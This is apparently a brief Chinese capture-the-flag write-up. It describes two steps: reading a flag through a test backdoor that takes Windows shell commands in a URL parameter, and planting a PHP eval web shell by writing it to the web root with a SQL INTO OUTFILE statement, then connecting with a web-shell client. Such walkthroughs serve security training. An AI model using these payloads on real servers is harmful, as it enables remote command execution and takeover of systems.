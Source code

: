 首先，先是那个后门的洞，用御剑扫出源码，发现一个test的后门，百度查找windows下shell命令，
在url上？page=test&shell=dir 列出所有的文件 发现flag.php dir改成type flag.php 就能得到了。

第二个就是sql写入木马，进入数据库，
先创建一个数据库
CREATE TABLE a(
cmd1 text NOT NULL
)
INSERT INTO a( cmd1 )
VALUES (
'<?php eval($_POST[cmd]);?>'
)
SELECT cmd1
FROM a
INTO OUTFILE 'D:\phpStudy\WWW\templates\13.php'
然后用cknife进行连接，http://192.168.12.12/templates/13.php
连接上之后就能看见了
